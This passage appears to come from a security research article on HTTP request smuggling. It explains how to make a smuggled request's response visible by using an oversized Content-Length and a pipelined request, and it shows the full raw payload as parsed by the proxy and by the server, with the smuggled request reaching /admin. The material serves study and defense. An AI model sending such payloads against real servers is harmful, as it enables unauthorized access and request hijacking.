 This simple payload, however, suffers from a major limitation. While the smuggled request *will* reach the back-end server, its response will not be returned to us. This is because the proxy believes it received only a single request, so it will usually not reply with two responses. 

Fortunately, we can quite easily overcome this apparent blindness with a minor modification to the payload. We simply replace the `Transfer-Encoding` header with an oversized `Content-Length` header in the smuggled request and append a second pipelined request. When we make this change, we must also remember to update the chunk size accordingly.


<div style="display: flex; gap: 10px;">
<div style="flex: 1;">
<pre><code><span class="http-highlight http-highlight-one">GET / HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text-req"><b>request #1</b></span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
2;<span class="http-line-break">\n</span>
xx<span class="http-line-break">\r\n</span>
3f<span class="http-line-break">\r\n</span>
0<span class="http-line-break">\r\n</span> 
<span class="http-line-break">\r\n</span>
GET /admin HTTP/1.1<span class="http-line-break">\r\n</span>
Host: localhost<span class="http-line-break">\r\n</span>
Content-Length: 40<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
0<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span></span><span class="http-highlight http-highlight-two">GET / HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text-req"><b>request #2</b></span>
Host: localhost<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span></span></code></pre>
<p style="text-align: center; font-weight: bold;">Proxy interpretation</p>
</div>

<div style="flex: 1;">
<pre><code><span class="http-highlight http-highlight-one">GET / HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text-req"><b>request #1</b></span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
2;<span class="http-line-break">\n</span>
xx<span class="http-line-break">\r\n</span>
3f<span class="http-line-break">\r\n</span>
0<span class="http-line-break">\r\n</span> 
<span class="http-line-break">\r\n</span></span><span class="http-highlight http-highlight-two">GET /admin HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text-req"><b>request #2</b></span>
Host: localhost<span class="http-line-break">\r\n</span>
Content-Length: 40<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
0<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
GET / HTTP/1.1<span class="http-line-break">\r\n</span>
Host: localhost<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span></span></code></pre>
<p style="text-align: center; font-weight: bold;">Server interpretation</p>
</div>
</div>

